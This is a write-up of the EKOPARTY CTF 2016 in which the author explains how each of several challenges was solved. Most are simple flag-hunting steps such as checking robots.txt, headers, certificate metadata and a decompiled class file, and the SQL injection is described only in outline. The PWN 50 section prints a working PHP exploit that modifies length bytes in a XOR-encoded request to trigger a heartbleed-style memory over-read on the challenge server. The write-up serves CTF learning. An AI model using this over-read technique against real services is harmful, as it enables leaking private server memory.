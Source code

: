 # EKOPARTY CTF 2016 - WRITEUP

Author: Juan Escobar
Date: 28 - 10 - 16

## Misc 50
### Hidden inside EKO
> Find the hidden flag in the EKO pixels!

The flag was found into nicknames at the background image: https://ctf.ekoparty.org/static/img/background.png

![](img/misc50/flag.png)

Flag
**EKO{th4_fl4g}**

## Web 25
### Mr. Robot
> Disallow it!

The flag was found into robots.txt file
```txt
User-agent: *
Disallow: /static/wIMti7Z27b.txt
```

![](img/web25/flag.png)

Flag
**EKO{robot_is_following_us}**

## Web 50
### RFC 7230
> Get just basic information from this server (ctf.ekoparty.org).

The flag was found in the header Server of HTTP GET request to ctf.ekoparty.org

![](img/web50/flag.png)

Flag
**EKO{this_is_my_great_server}**

## Web 100
### Super duper advanced attack
> Can you find the flag?
> http://0491e9f58d3c2196a6e1943adef9a9ab734ff5c9.ctf.site:20000

The challenge was about exploit a SQL injection and find the flag.

![](img/web100/cols.png)
Columns of database

![](img/web100/dump.png)
Dump of data

After cracking the hashes, try them as flag without success and thinking for a while, finally, I found the flag was in the @flag variable. I was the second team in solving this chall :D

![](img/web100/flag.png)

Flag
**EKO{do_not_forget_session_variables}**

## FBI 25
### Welcome to the dark side
> At Silk Road, every precaution is made to ensure your anonymity and security, from > connecting to the site, to making your transactions, to receiving your items.
> https://silkroadzpvwzxxv.onion

The flag was found in the source code of web page as a comment. I use Tor software to connect to the .onion url.

![](img/fbi25/flag.png)

Flag
**EKO{buy_me_some_b0ts}**

## FBI 50
### Metadata
> Help me to find some metadata!
> https://silkroadzpvwzxxv.onion

The flag was found in the certificate of web site, section *Issued by*, *Organizational Unit (OU)*.

![](img/fbi50/flag.png)

Flag
**EKO{is_this_just_real_file_is_this_just_fantasy}**

## REV 25
### JVM
> Bytecodes everywhere, reverse them.
> Attachment
> rev25_3100aa76fca4432f.zip

The flag was found decompiling the EKO.class file into Java code.

![](img/rev25/class.png)

![](img/rev25/flag.png)

Flag
**EKO{893116}**

## PWN 50
### Bleeding
> Let's bleed some bytes!
> bleed_client 4ff0eff1d46c1d74d152aaf36de6f2799020bdbc.ctf.site 50000
> Attachment
> pwn50_af93ddaf35df98ff.zip

The challenge was solved intercepting the traffic with Wireshark and replicating the request with a modification in 4 to 7 bytes to exploit the heartbleed and XOR operation with the key '0xdeadbeefcafebabe' in request content.

Exploit
´´´php
<?php
error_reporting(E_ALL);

$key = "de ad be ef ca fe ba be";

$akey = explode(" ", $key);
$file = file_get_contents("req.hex");
$ahex = explode(" ", $file);

$out = "";
for ($i=0; $i < count($ahex); $i++) { 
	$out .= bin2hex(chr(hexdec($ahex[$i]) ^ hexdec($akey[$i % 8]))). " ";
}

$vector = explode(" ", $out);
unset($vector[count($vector)-1]);

# 4 - 7
$vector[4] = $argv[1];
$vector[5] = $argv[2];
$vector[6] = $argv[3];
$vector[7] = $argv[4];

$payload = "";
for ($i=0; $i < count($vector); $i++) { 
	$payload .= bin2hex(chr(hexdec($vector[$i]) ^ hexdec($akey[$i % 8])));
}


$service_port = 50000;
$address = "4ff0eff1d46c1d74d152aaf36de6f2799020bdbc.ctf.site";
$socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
if ($socket === false) {
    echo "socket_create() falló: razón: " . socket_strerror(socket_last_error()) . "\n";
}

echo "Intentando conectar a '$address' en el puerto '$service_port'...\n";

echo "Length...\n";
echo $vector[4] . "\n";
echo $vector[5] . "\n";
echo $vector[6] . "\n";
echo $vector[7] . "\n";

$result = socket_connect($socket, $address, $service_port);
if ($result === false) {
    echo "socket_connect() falló.\nRazón: ($result) " . socket_strerror(socket_last_error($socket)) . "\n";
}


echo "Comparando penticiones..\n";
echo "file: " . str_replace(" ", "", $file) . "\n";
echo "payl. " . $payload . "\n";
echo "\n";

$in = hex2bin($payload);
echo "Enviando petición ...";
socket_write($socket, $in, strlen($in));
echo "OK.\n";

echo "Leyendo respuesta:\n\n";
while ($out = socket_read($socket, 2048)) {
    echo $out;
}

echo "\n\nCerrando socket...";
socket_close($socket);
echo "OK.\n\n";
´´´

![](img/pwn50/flag.png)

Flag
**EKO{1m_bl33d1ng_byt35}**

Ranking 255 of 721.

![](img/scoreboard.png)

